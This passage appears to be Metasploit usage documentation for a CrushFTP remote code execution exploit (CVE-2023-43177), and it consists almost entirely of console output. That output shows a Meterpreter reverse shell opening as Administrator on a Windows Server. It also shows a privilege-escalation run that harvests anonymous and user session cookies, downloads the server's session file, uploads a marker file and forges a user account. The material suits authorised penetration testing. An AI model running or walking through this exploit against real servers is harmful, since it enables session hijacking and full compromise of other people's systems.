```
[*] Meterpreter session 11 opened (10.4.227.33:57574 -> 192.168.101.54:4444) at 2024-03-22 18:46:25 +0100
[!] This exploit may require manual cleanup of 'C:/Users/Public/c32e.jar' on the target

meterpreter > getuid
Server username: Administrator
meterpreter > sysinfo
Computer        : SRV-STD
OS              : Windows Server 2022 10.0 (amd64)
Architecture    : x64
System Language : en_US
Meterpreter     : java/windows
```

#### With an active non-privileged session (privilege escalation)
```
msf6 exploit(multi/http/crushftp_rce_cve_2023_43177) > exploit rhosts=192.168.101.54 verbose=true

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking CrushFTP Server
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711130383791_FsmZz0FlGiiiYLl7V8qhICxtzfmQLN
[*] Checking if the attack primitive works
[*] Logging out session cookie `1711130383791_FsmZz0FlGiiiYLl7V8qhICxtzfmQLN`
[+] The target appears to be vulnerable.
[*] Downloading the session file
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711130385529_gfYIp4KJlwx6R5dy1JWcLhZZq9rOJS
[*] Getting session file at `WebInterface/Resources/libs/jq-3.6.0_9f9371966b-js/`
[+] Session file downloaded
[*] Logging out session cookie `1711130385529_gfYIp4KJlwx6R5dy1JWcLhZZq9rOJS`
[*] Looking for the valid sessions
[*] Found 1 session cookies in the session file
[*] Cookie `1711130148838_IQCFIDkPBuRaLAVq2KI9D1hAlfgh0T` is valid session (username: msfuser)
[*] Checking if user msfuser is an admin (cookie: 1711130148838_IQCFIDkPBuRaLAVq2KI9D1hAlfgh0T)
[*] Could not find any admin session or the admin account creation failed
[*] Attempting privilege escalation with session cookie {:cookie=>"1711130148838_IQCFIDkPBuRaLAVq2KI9D1hAlfgh0T", :username=>"msfuser"}
[*] Looking for a directory with write permissions
[+] Found a writable directory: /home/readonly/writable1
[*] Uploading the egg file `4daf4b7923`
[*] Uploading `user.XML` to /home/readonly/writable1/user.XML
[*] Looking for the egg in the session file
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711130396337_KcYDlC0SZA19Z2uiWqw8dDyU0bVMO1
[*] Getting session file at `WebInterface/Resources/libs/jq-3.6.0_9f9371966b-js/`
[+] Session file downloaded
[*] Session file has not changed yet, skipping
[*] Logging out session cookie `1711130396337_KcYDlC0SZA19Z2uiWqw8dDyU0bVMO1`
[*] Egg not found, wait 30 seconds and try again... (Ctrl-C to exit)
[*] Looking for the egg in the session file
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711130429011_YzjufB5IlVeRSuqRdcJdMjXfDWBQwx
[*] Getting session file at `WebInterface/Resources/libs/jq-3.6.0_9f9371966b-js/`
[+] Session file downloaded
[*] Logging out session cookie `1711130429011_YzjufB5IlVeRSuqRdcJdMjXfDWBQwx`
[*] Found the egg at FILE://C:/CrushFTP10/home/readonly/writable1/4daf4b7923 in the session file
[+] Found path `C:/CrushFTP10/home/readonly/writable1/` and it is Windows
[+] Found the file system path: C:/CrushFTP10/home/readonly/writable1/
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711130431330_KQjve6ieSt8nNrl4uJ5L7vmVmsEXsD
[*] The forged user will be `4a5b85eeb9`
```